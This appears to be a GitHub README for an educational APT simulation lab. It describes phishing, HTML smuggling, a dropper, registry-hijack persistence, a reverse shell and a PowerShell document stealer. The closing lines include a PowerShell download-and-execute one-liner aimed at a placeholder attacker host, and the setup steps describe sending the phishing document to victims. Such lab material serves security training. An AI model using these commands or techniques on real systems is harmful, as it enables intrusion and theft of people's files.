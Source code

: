 # APT Simulation - Advanced Persistent Threat Attack

This project simulates an **Advanced Persistent Threat (APT)** attack, covering multiple stages from initial phishing to data exfiltration. The simulation is designed for educational and cybersecurity awareness purposes in a **controlled environment** such as VirtualBox.

## **Stages of the Attack**

### **1. Phishing (Initial Access)**

- A malicious **job description document (.docx)** is sent to the target.
- The document contains a **link to an HTML Smuggling page** that automatically downloads the initial dropper (**dropper.exe**).

### **2. HTML Smuggling (Dropper Execution)**

- When the target opens the link, **dropper.exe** is downloaded without triggering security warnings.
- If the user executes **dropper.exe**, it downloads additional payloads from the attacker's server.

### **3. Payload Deployment (Execution & Persistence)**

- The dropper downloads **shellcode (reverse shell)** and persist.ps1 file from the attacker's server.
- The dropper.exe manipulates the **registry value** at `HKEY_LOCAL_MACHINE\SOFTWARE\Classes\txtfile\shell\open\command` to execute `persist.ps1`.
- When the user opens any **.txt file**, the manipulated registry value triggers `persist.ps1`, which establishes a **reverse shell** connection to the attacker's server.

### **4. Data Exfiltration (Document Theft)**

- A **PowerShell document stealer** searches for sensitive files (**.txt, .pdf, .xlsx, .csv**).
- Stolen files are uploaded to a **remote PHP web server** controlled by the attacker.

## **Components**

- **Dropper (C)**: Downloads & executes payloads.
- **Reverse Shell (C & Windows API)**: Establishes attacker connection.
- **PowerShell Scripts**: Handles persistence & document exfiltration.
- **PHP Web Server**: Receives stolen files.
- **HTML Smuggling (HTML & JavaScript)**: Bypasses browser security controls.
- **Phishing Document (DOCX)**: Social engineering bait.

## **How to Set Up the Simulation**

### **1. Configure Virtual Environment**

- Use **VirtualBox** with a **Windows VM** as the target.
- Set up an **attacker machine (Kali Linux/Ubuntu)** for control.

### **2. Start the Web Server**

```bash
php -S 0.0.0.0:8080 -t /path/to/upload_server/
```

### **3. Send the Phishing Document**

- Distribute the **malicious job description (.docx)** via email or messaging platforms.

### **4. Monitor the Attack Progress**

- Wait for the victim to execute **dropper.exe**.
- Capture the **reverse shell connection**.
- Extract stolen data from the PHP web server.

## **Disclaimer**

This project is strictly for **educational purposes**. Unauthorized use of these techniques on real systems **without permission** is illegal and may result in serious legal consequences. Use this simulation in a controlled and isolated environment only.

---

Let me know if you need **further refinements or additional details!** 🔥

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://attacker_ip/docs-stealer.ps1')"

